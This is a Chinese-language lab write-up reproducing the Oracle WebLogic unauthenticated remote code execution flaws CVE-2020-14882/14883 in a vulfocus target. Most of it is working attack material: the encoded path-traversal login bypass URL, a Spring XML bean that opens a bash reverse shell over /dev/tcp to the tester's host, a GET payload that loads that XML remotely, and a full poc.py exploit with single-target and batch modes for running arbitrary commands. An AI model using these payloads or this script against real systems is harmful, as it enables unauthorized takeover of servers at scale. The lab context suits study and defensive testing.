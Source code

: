 ```yaml
---
title: CVE-2020-14882 weblogic未授权远程命令执行漏洞
date: 2023-02-22 11:37:13
tags: [CVE漏洞,weblogic]
categories: CVE漏洞复现
---
```


###  影响范围

Oracle WebLogic Server 版本10.3.6.0，12.1.3.0，12.2.1.3，12.2.1.4，14.1.1.0。

<!--more-->

### 一、漏洞描述

​			Oracle WebLogic Server 远程代码执行漏洞 （CVE-2020-14882）POC 被公开，未经身份验证)的远程攻击者可通过构造特殊的 HTTP GET 请求，结合 CVE-2020-14883 漏洞进行利用，利用此漏洞可在未经身份验证的情况下直接接管 WebLogic Server Console ，并执行任意代码，利用门槛低，危害巨大

### 二、weblogic

​		WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

### 三、影响范围

​	Oracle WebLogic Server，版本10.3.6.0，12.1.3.0，12.2.1.3，12.2.1.4，14.1.1.0。

### 四、漏洞复现

#### **1.开启vulfocus靶场环境**

<img src="CVE-2020-14882-weblogic%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20230222114330256.png" alt="image-20230222114330256" style="zoom:67%;" />

直接访问地址会发现无法访问

<img src="CVE-2020-14882-weblogic%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20230222114442187.png" alt="image-20230222114442187" style="zoom:50%;" />

需要在后面加上/console/login/LoginForm.jsp，发现以下登入页面

![image-20230222114531893](CVE-2020-14882-weblogic%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20230222114531893.png)

#### **2.进入后台**

尝试用burp爆破，花时收获甚微，这里有一个绕过验证漏洞，我们使用构造URL

```
http://10.0.0.128:52634/console/css/%252e%252e%252fconsole.portal
```

成功进入了后台，但是获得的权限很低

<img src="CVE-2020-14882-weblogic%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20230222115106557.png" alt="image-20230222115106557" style="zoom:67%;" />

#### **3.漏洞利用**

来自https://github.com/GGyao/CVE-2020-14882_ALL/blob/master/README.md上的漏洞利用脚本以及方法



###### 一、命令回显

```
python3 poc.py -u http://ip:port -c “{指令}”
```

这里的指令使用whoami进行测试，成功回显

![image-20230222120833329](CVE-2020-14882-weblogic%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20230222120833329.png)

###### 二、批量命令回显

```
python3 poc.py -u http://ip:port -f target.txt -c "{cmd}"
```

target.txt 为 ip:port目标，一行一个，由于只开了一个靶机，这里不复现

###### 三、外置xml文件无回显命令执行

编辑好xml文件

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
 <value>/bin/bash</value>
        <value>-c</value>
        <value><![CDATA[bash -i >& /dev/tcp/10.0.0.127/4444  0>&1]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

修改cmd指令为反弹shell

```
<![CDATA[bash -i >& /dev/tcp/10.0.0.127/4444  0>&1]]>
```

开启python http服务，让其能访问kali上的xml文件：

![image-20230222121930639](CVE-2020-14882-weblogic%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20230222121930639.png)

<img src="CVE-2020-14882-weblogic%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20230222123705013.png" alt="image-20230222123705013" style="zoom:50%;" />

开启nc监听：

![image-20230222123739809](CVE-2020-14882-weblogic%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20230222123739809.png)

尝试使用脚本中-x指令运行，结果有访问记录而无shell反弹，

尝试在浏览器使用get请求

payload:

```http
http://ip:port/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://kaliip/xxx.xml")
```

成功获取shell:

![image-20230222125409094](CVE-2020-14882-weblogic%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20230222125409094.png)

### poc.py

```python
#coding:utf-8
import requests
import sys
import argparse
import http.client

http.client.HTTPConnection._http_vsn = 10
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'

requests.packages.urllib3.disable_warnings()


#功能1方法：回显命令执行。
def command(url_cmd,headers_cmd,url):
	try:
		res = requests.get(url_cmd, headers = headers_cmd,timeout = 15, verify = False)
		if "<html" not in res.text and "<TITLE" not in res.text :
			print ("[+] Command success result:")
			print (res.text)

		else:
			print ("[-] " + url + " not vulnerable or command error!")
	except Exception as e:
		#print (e)
		print ("[-] " + url + " not vulnerable or command error!")


#功能2方法：无回显，命令执行,适用于Weblogic 10.x、12.x。
def weblogic_12(url_cmd,post_12,headers_12):
	try:
		res = requests.post(url_cmd, data = post_12, headers = headers_12,timeout = 15, verify = False)
		#print ("[+] Attack complete!")
	except Exception as e:
		print ("[+] Attack complete!")

def main():
	banner = """  _______      ________    ___   ___ ___   ___        __ _  _   ___   ___ ___  
 / ____\ \    / /  ____|  |__ \ / _ \__ \ / _ \      /_ | || | / _ \ / _ \__ \ 
| |     \ \  / /| |__ ______ ) | | | | ) | | | |______| | || || (_) | (_) | ) |
| |      \ \/ / |  __|______/ /| | | |/ /| | | |______| |__   _> _ < > _ < / / 
| |____   \  /  | |____    / /_| |_| / /_| |_| |      | |  | || (_) | (_) / /_ 
 \_____|   \/   |______|  |____|\___/____|\___/       |_|  |_| \___/ \___/____|
                                                                               
                                                         Author:GGyao
                                                         Github:https://github.com/GGyao

"""

	print (banner)
	parser = argparse.ArgumentParser()
	parser.add_argument("-u", "--url", help="Target URL; Example:http://ip:port。")
	parser.add_argument("-f", "--file", help="Target File; Example:target.txt。")
	parser.add_argument("-c", "--cmd", help="Commands to be executed; ")
	parser.add_argument("-x", "--xml", help="Remote XML file; Example:http://vpsip/poc.xml; ")
	args = parser.parse_args()

	#功能1：命令回显。
	if args.url != None and args.cmd != None:
		url = args.url
		url_cmd = args.url + """/console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};if(cmd != null ){ String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("%5C%5CA").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();} currentThread.interrupt();')"""
		headers_cmd = {
		'User-Agent':'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0',
		'cmd':args.cmd,
		'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
		'Content-Type':'application/x-www-form-urlencoded'
		}

		#post_cmd = """_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.WorkAdapter+adapter+%3d+((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork()%3b+java.lang.reflect.Field+field+%3d+adapter.getClass().getDeclaredField("connectionHandler")%3bfield.setAccessible(true)%3bObject+obj+%3d+field.get(adapter)%3bweblogic.servlet.internal.ServletRequestImpl+req+%3d+(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj)%3b+String+cmd+%3d+req.getHeader("cmd")%3bString[]+cmds+%3d+System.getProperty("os.name").toLowerCase().contains("window")+%3f+new+String[]{"cmd.exe",+"/c",+cmd}+%3a+new+String[]{"/bin/sh",+"-c",+cmd}%3bif(cmd+!%3d+null+){+String+result+%3d+new+java.util.Scanner(new+java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\\A").next()%3b+weblogic.servlet.internal.ServletResponseImpl+res+%3d+(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req)%3b+res.getServletOutputStream().writeStream(new+weblogic.xml.util.StringInputStream(result))%3bres.getServletOutputStream().flush()%3bres.getWriter().write("")%3b}')"""

	
		#command(url_cmd,post_cmd,headers_cmd,url)
		command(url_cmd,headers_cmd,url)

	#功能2：weblogic 12.x命令执行。
	if args.url != None and args.xml != None:
		url_cmd = args.url + '/console/images/%252e%252e/console.portal'
		headers_12 = {
		'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0',
		'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
		'Content-Type':'application/x-www-form-urlencoded'
		}

		post_12 = """_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(%22{}%22)""".format(args.xml)

		weblogic_12(url_cmd,post_12,headers_12)

	# 功能3：回显命令执行批量。
	if args.file != None and args.cmd != None:
		#print (1)
		for File  in open(args.file):
			File = File.strip()
			url_cmd = File + """/console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};if(cmd != null ){ String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("%5C%5CA").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();} currentThread.interrupt();')"""
			print ("[*] >>> Test:" + File)

			url = File
			headers_cmd = {
			'User-Agent':'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0',
			'cmd':args.cmd,
			'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
			'Content-Type':'application/x-www-form-urlencoded'
			}


			#post_cmd = """_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.WorkAdapter+adapter+%3d+((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork()%3b+java.lang.reflect.Field+field+%3d+adapter.getClass().getDeclaredField("connectionHandler")%3bfield.setAccessible(true)%3bObject+obj+%3d+field.get(adapter)%3bweblogic.servlet.internal.ServletRequestImpl+req+%3d+(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj)%3b+String+cmd+%3d+req.getHeader("cmd")%3bString[]+cmds+%3d+System.getProperty("os.name").toLowerCase().contains("window")+%3f+new+String[]{"cmd.exe",+"/c",+cmd}+%3a+new+String[]{"/bin/sh",+"-c",+cmd}%3bif(cmd+!%3d+null+){+String+result+%3d+new+java.util.Scanner(new+java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\\A").next()%3b+weblogic.servlet.internal.ServletResponseImpl+res+%3d+(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req)%3b+res.getServletOutputStream().writeStream(new+weblogic.xml.util.StringInputStream(result))%3bres.getServletOutputStream().flush()%3bres.getWriter().write("")%3b}')"""
			command(url_cmd,headers_cmd,url)


if __name__=="__main__":
	main()
```


